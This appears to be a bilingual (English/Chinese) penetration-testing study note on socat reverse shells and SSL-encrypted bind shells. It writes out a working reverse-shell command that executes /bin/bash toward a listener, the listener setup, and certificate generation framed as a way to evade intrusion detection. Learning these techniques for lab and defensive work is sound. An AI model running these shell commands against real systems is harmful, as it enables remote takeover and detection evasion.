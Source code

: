 ### - Socat Reverse Shells
Bob will start a listener on port 443.
```
┌──(frankchang㉿CHW-Macbook)-[~]
└─$ sudo socat -d -d TCP4-LISTEN:443 STDOUT
2024/06/27 17:39:28 socat[71] N listening on AF=2 0.0.0.0:443

```
> -d -d：啟用兩級的調試訊息，會print 詳細的輸出，包括連接建立和data傳輸的訊息。

Alice will use socat's exec option. It's similar to the **NETCAT -e**
- Bob IP: 10.11.0.22
```
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
> EXEC:/bin/bash: 建立後執行 /bin/bash，將STDIN/STDOUT 重定向到該ip。

ONCE CONNECTED, Bob can enter commands from his socat session, which will execute on Alice's machine.
![image](https://hackmd.io/_uploads/Hy28O2q8R.png)
> Bob 成功控制 Alice 電腦

### – Socat Encrypted Bind Shells
To add encryption to a bind shell, we'll rely on secure socket layer certificates.
This level of encryption will assist in envading intrusion detection systems. And will help hide the sensitive data we are transceiving.
We will use the openssl application, to create a self-signed certificate using the following options
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
> openssl 生成一個新的 RSA 私鑰和自簽憑證
> `req & -x509`: 生成證書簽名請求（CSR）和自簽憑證\
> `-newkey rsa`:2048 生成一個新的 RSA 私鑰，密鑰長度為 2048 位元\
> `-nodes`: 儲存私鑰的時候不加密，即不使用密碼保護\
> `-keyout bind_shell.key`: 生成私鑰檔案 bind_shell.key\
> `-days 362`: 簽證期限 362 天\
> `-out bind_shell.crt`: 生成的自簽憑證 bind_shell.crt

![image](https://hackmd.io/_uploads/rkdo6A5UC.png)\
(自簽憑證資訊可以參考另一篇: [Apache SSL 憑證申請安裝](https://github.com/Chw41/Server-conf./blob/main/Secure%20Sockets%20Layer/README.md#1-%E7%94%A2%E7%94%9Frsa-%E7%A7%81%E9%91%B0))

After key and certificate have been generated,
we need to convert them into a format socat will accept.
![image](https://hackmd.io/_uploads/rJA9PyoL0.png)
```
cat {key file} {.crt file} > {.pem file}
```
> 將私鑰和憑證合併成 PEM

>[!Important]
> .crt 和 .pem 差別,
> - .crt: 通常只包含憑證本人 (Binary 格式)
> - .pem: 可以包含多種類型的加密資料 ex. PRIVATE KEY, PUBLIC KEY, CERTIFICATE ( ASCII 編碼的 Base64 格式)
